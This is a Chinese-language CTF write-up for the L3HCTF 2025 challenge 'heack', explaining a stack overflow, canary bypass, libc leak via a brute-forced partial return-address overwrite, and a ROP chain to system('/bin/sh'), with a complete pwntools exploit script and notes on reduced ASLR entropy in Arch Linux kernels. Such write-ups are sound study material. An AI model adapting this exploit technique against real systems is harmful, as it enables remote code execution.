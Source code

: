 ```yaml
---
title: L3HCTF 2025 - heack
date: 2025/07/18 13:57:00
updated: 2025/07/18 23:32:00
tags:
    - rop
    - buffer overflow
thumbnail: /assets/l3hctf2025/stack.png
excerpt: 利用栈溢出配合任意地址写跳转至含`%lu`的printf泄露libc，通过爆破4位构造ROP链执行`system("/bin/sh")`。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.39-0ubuntu8.4|

## 解题思路

程序里有一个很明显的栈溢出在`fight_dragon`中，但是没有信息，无法直接溢出；
而且返回以后直接`exit(0)`了，我们必须覆写返回地址。

![stack layout](/assets/l3hctf2025/stack.png)

观察到`game`函数里有许多`printf("%lu", ...)`形式的调用，而在我们返回时，
rsi正好是`_IO_2_1_stdout_+131`，那么只要我们能跳转到那里，就能泄露libc，
从而实现构造rop链。注意到在溢出时是一个一个字节写入的，而索引放在比缓冲区高的地方，
因此只需要将索引覆盖为返回地址的偏移，我们就可以直接操作返回地址而跳过canary。

{% note blue fa-forward %}
原来为了避免爆破，选择跳转到`printf("Data: %d\n", ...)`泄露libc，没想到由于`%d`
只能泄露32位，我们仍然需要爆8位（**0x7f??** 或者12位 **0x7???** ，取决于内核选项），
相比其跳转到有`%lu`的地方，反而白白地增添了爆破的时间，有点得不偿失了说是。
{% endnote %}

通过爆破4位，我们可以跳转到上述的地方，然后再构造`system("/bin/sh")`就可以开shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './heack'

def payload(lo: int) -> int:
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('1.95.34.119', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')

    def game_arbwrite(chain: bytes):
        t.sendlineafter(b'=== Hero', b'1')
        t.sendlineafter(b'[Battle]', p8(0x17).rjust(0x104, b'\0') + chain)

    # jump to printf("[HP]: %lu\n", $rsi);
    # brute force 1 byte to get libc (printing _IO_2_1_stdout_ + 131)
    low16 = ( (0x39 if not lo & 2 else int(input('??63 ? '), 0)) << 8) | 0x63
    game_arbwrite(p16(low16))

    try:
        t.recvuntil(b'[HP]: ') # if not right, this triggers EOFError
    except EOFError:
        t.close()
        return 0
    libc_base = int(t.recvline()) - 131 - libc.symbols['_IO_2_1_stdout_']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base
    gadgets = ROP(libc)
    rdi = gadgets.rdi.address
    ret = gadgets.ret.address

    game_arbwrite(flat(ret, # balance stack to perform system
                       rdi, next(libc.search(b'/bin/sh')), libc.symbols['system'],
                       rdi, 0, libc.symbols['exit']))

    t.clean(0.5)
    t.interactive()
    t.close()
    return 1
```

{% note default fa-flag %}
![flag](/assets/l3hctf2025/heack_flag.png)
{% endnote %}

## 题外话：丢失的9位ASLR

在和 *hkbin* 聊爆破几位的时候，猛然发现原来Arch是需要爆12位的，结果现在又变回了8位，
blame一下`core/linux`的config记录，发现这个安全措施是在[去年的commit](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/3904bcb32cc58c10232fb618bf96c1b43b0bc9d7)中引入的，
然后到了[一个月前](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/854d06601d6fd3e245cbd1adee7d4c2b1d40a8e6)又把这个操作回滚了，
有个[专门的issue](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/issues/141)讨论这个事，
基本上意思就是遵循上游的原始设定，因为这个选项是开在 *CONFIG_EXPERT* 一节的，
很多开发者会按照默认配置写代码，然后就出现了libasan段错误的情况，因此就选择回滚默认配置了。
如果为了安全，可以选择`linux_hardened`。

issue中还提到了一个[有意思的东西](https://blog.zolutal.io/aslrnt/)，
就是我们打比赛的时候，有时候泄露libc会发现，不只是最后12位是0，而是最后21位都是0。
这其实是因为一些内核的优化，像libc这样超过2MiB的文件，在映射到内存中时，就会使用
**Huge Page**，导致需要使用21位的对齐，而非常规页的12位对齐，这直接导致了9位ASLR的丢失。
作为补偿，有些发行版设置了32位的mmap随机化，通过增加8位随机来对抗这一特性，
然而Arch竟然回到了28位随机化的默认配置，让人有点匪夷所思。

## 参考

1. [6.7.arch3-1 (3904bcb3) Arch Linux / packages / linux](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/3904bcb32cc58c10232fb618bf96c1b43b0bc9d7)
2. [6.14.7.arch2-1 (854d0660) Arch Linux / packages / linux](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/commit/854d06601d6fd3e245cbd1adee7d4c2b1d40a8e6)
3. [6.14.7.arch2-1: reduced ASLR entropy in CONFIG_ARCH_MMAP_RND_BITS/CONFIG_ARCH_MMAP_RND_COMPAT_BITS? Issues#141](https://gitlab.archlinux.org/archlinux/packaging/packages/linux/-/issues/141)
4. [ASLRn’t: How memory alignment broke library ASLR](https://blog.zolutal.io/aslrnt/)
